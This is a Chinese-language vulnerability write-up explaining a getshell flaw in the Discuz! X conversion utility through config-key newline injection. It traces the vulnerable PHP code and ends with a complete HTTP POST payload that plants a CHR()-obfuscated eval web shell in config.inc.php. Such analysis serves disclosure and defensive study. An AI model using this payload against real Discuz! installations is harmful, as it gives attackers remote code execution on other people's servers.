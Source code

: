Discuz! X 系列全版本，版本转换功能导致Getshell
==============================================

一、漏洞简介
------------

存在问题的代码在`/utility/convert/`目录下，这部分的功能主要是用于Dz系列产品升级/转换。

二、漏洞影响
------------

Discuz! X 全版本

三、复现过程
------------

### 漏洞分析

入口`utility/convert/index.php`

    require './include/common.inc.php';

    $action = getgpc('a');
    $action = empty($action) ? getgpc('action') : $action;
    $source = getgpc('source') ? getgpc('source') : getgpc('s');

取`$_POST['a']`,直接赋值给`$action`，此时`$action = config`;

    } elseif($action == 'config' || CONFIG_EMPTY) {      
        require DISCUZ_ROOT.'./include/do_config.inc.php';  
    } elseif($action == 'setting') {

满足条件，引入`./include/do_config.inc.php`

    @touch($configfile);
     ......
    if(submitcheck()) {
        $newconfig = getgpc('newconfig');
        if(is_array($newconfig)) {
            $checkarray = $setting['config']['ucenter'] ? array('source', 'target', 'ucenter') : array('source', 'target');
            foreach ($checkarray as $key) {
          ......
        }
        save_config_file($configfile, $newconfig, $config_default);

`$newconfig`从`$_POST[newconfig]`获取数据，`save_config_file`函数保将`$newconfig`保存到`$configfile`文件中，即`config.inc.php`文件。跟进该函数。

    function save_config_file($filename, $config, $default) {
        $config = setdefault($config, $default);// 将$config中的空白项用 $default 中对应项的值填充
        $date = gmdate("Y-m-d H:i:s", time() + 3600 * 8);
        $year = date('Y');
        $content = <<<EOT
    <?php


    \$_config = array();

    EOT;
        $content .= getvars(array('_config' => $config));
        $content .= "\r\n// ".str_pad('  THE END  ', 50, '-', STR_PAD_BOTH)." //\r\n\r\n?>";
        file_put_contents($filename, $content);
    }

getvars函数处理，此时的`$config` =
`$newconfig+config.default.php对应项的补充`。看一下getvars函数：

    function getvars($data, $type = 'VAR') {
        $evaluate = '';
        foreach($data as $key => $val) {
            if(!preg_match("/^[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*$/", $key)) {
                continue;
            }
            if(is_array($val)) {
                $evaluate .= buildarray($val, 0, "\${$key}")."\r\n";
            } else {
                $val = addcslashes($val, '\'\\');
                $evaluate .= $type == 'VAR' ? "\$$key = '$val';\n" : "define('".strtoupper($key)."', '$val');\n";
            }
        }
        return $evaluate;
    }

满足if条件会执行`buildarray`函数，此时`$key=_config`，`$val`=上面的`$config`。最终造成写入的在该函数中（update.php
2206行）：

    foreach ($array as $key => $val) {
            if($level == 0) {
                //str_pad — 使用另一个字符串填充字符串为指定长度
                // 第一个参数是要输出的字符串，指定长度为50，用'-'填充，居中
                $newline = str_pad('  CONFIG '.strtoupper($key).'  ', 50, '-', STR_PAD_BOTH);
                $return .= "\r\n// $newline //\r\n";
            }

本意是使用`$config`数组的key作为每一块配置区域的\"注释标题\"，写入配置文件的\$newline依赖于\$key，而\$key是攻击者可控的。

未对输入数据进行正确的边界处理，导致可以插入换行符，逃离注释的作用范围，从而使输入数据转化为可执行代码。

### 漏洞复现

在产品升级/转换-\>选择产品转换程序 -\>设置服务器信息 这里抓包，

payload：

    POST /dz/utility/convert/index.php HTTP/1.1
    Host: www.0-sec.org:8001
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 278
    Origin: http://127.0.0.1:8001
    Connection: close
    Referer: http://127.0.0.1:8001/dz/utility/convert/index.php
    Upgrade-Insecure-Requests: 1

    a=config&source=d7.2_x1.5&submit=yes&newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(108).CHR(97).CHR(110).CHR(118).CHR(110).CHR(97).CHR(108).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaa

![](./.resource/Discuz!X系列全版本版本转换功能导致Getshell/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/7492\#toc-18
